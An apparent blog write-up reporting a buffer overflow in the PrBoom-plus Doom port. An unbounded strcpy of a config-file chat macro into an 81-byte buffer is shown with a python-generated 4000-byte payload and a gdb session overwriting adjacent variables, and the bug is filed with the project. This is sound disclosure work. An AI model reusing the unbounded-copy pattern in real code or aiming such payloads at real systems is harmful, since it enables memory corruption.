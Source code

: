 ```yaml
---
layout: post
title: "[EN] A-Z: PrBoom-plus (part II) and <i>message_nottobefuckedwith</i>"
published: true
date: 2019-10-07
author: Michal
---
```


As in the previous post, I was digging in [PrBoom-plus's code](https://svn.prboom.org/repos/branches/prboom-plus-24/prboom2/). When I was going through `hu_stuff.c` these two variables caught my eye:

{% highlight x %}
189  dboolean           message_dontfuckwithme;
190  static dboolean    message_nottobefuckedwith;
{% endhighlight %}

It's always funny to find such names in source code. It was even better when I found out that it's part of [original Doom's code](https://github.com/id-Software/DOOM/blob/77735c3ff0772609e9c8d29e3ce2ab42ff54d20b/linuxdoom-1.10/hu_stuff.c#L99). So I took a challange I tried to have some fun with it.


### chat macro buffer overflow

I looked at code in `m_misc.c` responsible for parsing a configuration file. I noticed that chat macro variables are accepted with quite large length limit (excatly 31988 bytes). 

{% highlight x %}
706    {"Chat macros",{NULL},{0},UL,UL,def_none,ss_none},
707    {"chatmacro0", {0,&chat_macros[0]}, {0,HUSTR_CHATMACRO0},UL,UL,
708     def_str,ss_chat}, // chat string associated with 0 key
[...]
1415  #define CFG_BUFFERMAX 32000
[...]
1500    f = fopen (defaultfile, "r");
[...]
1507        fgets(cfgline, CFG_BUFFERMAX, f);
1508        if (sscanf (cfgline, "%79s %[^\n]\n", def, strparm) == 2)
{% endhighlight %}

These macros may be used during the game by starting chat (by pressing `t`) and then selecting a specific macro with a key combination `alt` + macro number. Code responsible for handling this situation is in `hu_stuff.c`

{% highlight x %}
2820      if (altdown)
2821      {
2822        c = c - '0';
2823        if (c > 9)
2824          return false;
2825        macromessage = chat_macros[c];
2826  
2827        // kill last message with a '\n'
2828          HU_queueChatChar((char)key_enter); // DEBUG!!!                // phares
2829  
2830        // send the macro message
2831        while (*macromessage)
2832          HU_queueChatChar(*macromessage++);
2833        HU_queueChatChar((char)key_enter);                            // phares
2834  
2835        // leave chat mode and notify that it was sent
2836        chat_on = false;
2837        strcpy(lastmessage, chat_macros[c]);
2838        plr->message = lastmessage;
2839        eatkey = true;
2840      }
{% endhighlight %}

Macro message is retrieved from the array at line 2825, lines 2827 - 2833 are responsible for preparing the text to be displayed. Then, at line 2837 the text (which has no length boundaries) is copied to `lastmessage` variable. This buffer has fixed size, 81 bytes.

`hu_lib.h`:
{% highlight x %}
51  #define HU_MAXLINELENGTH  80
{% endhighlight %}

`hu_stuff.c`:
{% highlight x %}
2722    static char   lastmessage[HU_MAXLINELENGTH+1];
{% endhighlight %}

Summarizing, we have control over `chat_macros` value, which may have up to 31988 bytes read from configuration file. Then, these bytes are copied the `lastmessage` for which only 81 bytes are allocated - this is typical buffer overflow. As uninitialized global and static variables reside in a .`bss` segment, I hoped that I will be able use this overflow to overwrite them.

I prepared a configuration file with a payload (0x61 is *a*):
{% highlight x %}
# python -c 'print "chatmacro0 \"" + "\x61" * 4000 + "\""' > test.cfg
# cat test.cfg
chatmacro0 "aaaaaaaaaaaaaaaaaaaaa[...]
{% endhighlight %}

I compiled the game with additional compiler flag `-D_FORTIFY_SOURCE=0` which disables a modern protection against buffer overflow exploitation. Then I started the server and the first client.
{% highlight x %}
root@ubuntu16:~/projects/prboom-plus/prboom2/bin/games# ./prboom-plus-game-server 
Listening on port 5030, waiting for 2 players
{% endhighlight %}
{% highlight x %}
root@ubuntu16:~/projects/prboom-plus/prboom2/bin/games# ./prboom-plus -iwad /root/projects/prboom-plus/freedm-0.11.3/freedm.wad -net 127.0.0.1 -window -nomouse
{% endhighlight %}

The second client I ran using gdb,
{% highlight x %}
root@ubuntu16:~/projects/prboom-plus/prboom2/bin/games# gdb --args ./prboom-plus -iwad /root/projects/prboom-plus/freedm-0.11.3/freedm.wad -net 127.0.0.1 -window -nomouse -config /root/projects/prboom-plus/test.cfg
{% endhighlight %}
and set up a breakpoint on vulnerable line (`strcpy` invocation).
{% highlight x %}
(gdb) break hu_stuff.c:2837
Breakpoint 1 at 0x80a00ce: file hu_stuff.c, line 2837.
(gdb) c
Continuing.
{% endhighlight %}

In the game I used my macro (by pressing `t` and `alt` + `0`), and the breakpoint was hit.
{% highlight x %}
Thread 1 "prboom-plus" hit Breakpoint 1, HU_Responder (ev=0xbf836cd4) at hu_stuff.c:2837
2837        strcpy(lastmessage, chat_macros[c]);
{% endhighlight %}

Memory before triggering vulnerablity:
{% highlight x %}
(gdb) x/4x &message_nottobefuckedwith 
0x817d568 <message_nottobefuckedwith>:  0x00000000  0x00000000  0x00000000  0x00000000
{% endhighlight %}
just one step calling `strcpy`,
{% highlight x %}
(gdb) n
2838        plr->message = lastmessage;
{% endhighlight %}
and the result shows how I fucked with DOOM and its *message_nottobefuckedwith*:
{% highlight x %}
(gdb) x/4x &message_nottobefuckedwith 
0x817d568 <message_nottobefuckedwith>:  0x61616161  0x61616161  0x61616161  0x61616161
{% endhighlight %}

- submission: [https://sourceforge.net/p/prboom-plus/bugs/254/](https://sourceforge.net/p/prboom-plus/bugs/254/)
